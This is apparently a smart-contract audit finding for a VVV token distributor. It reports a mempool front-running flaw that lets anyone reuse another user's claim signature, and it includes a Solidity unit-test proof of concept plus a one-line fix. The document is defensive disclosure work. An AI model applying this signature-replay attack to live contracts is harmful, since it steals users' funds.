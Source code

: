 Ripe Mint Lynx

High

# malicious user can steal other users' assets

### Summary

malicious user can steal other users' assets

### Root Cause
https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L133

### Attack Path

1-a user be eligible for claimant and get a signature for claim
2-the user sends his transaction to mempool
3-malicious user see his tx in mempool and call claim function with his signature
4-the user's assets will be sent to malicious user

### Impact

loss of funds for users

### PoC

consider to add this test to `VVVVCTokenDistributorUnitTests`

```solidity
    function testStealOtherUsersClaimant() public {


        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            sampleUser,
            projectTokenProxyWallets,
            sampleTokenAmountsToClaim
        );


        address bob = makeAddr("bob");
        claimAsUser(bob, claimParams);
        assertEq(ProjectTokenInstance.balanceOf(bob), 6666000000000000000000);
       
    }
```

### Mitigation

```diff
@@ -130,7 +130,7 @@ contract VVVVCTokenDistributor is VVVAuthorizationRegistryChecker {
         for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
             projectToken.safeTransferFrom(
                 _params.projectTokenProxyWallets[i],
-                msg.sender,
+                _params.kycAddress,
                 _params.tokenAmountsToClaim[i]
             
```
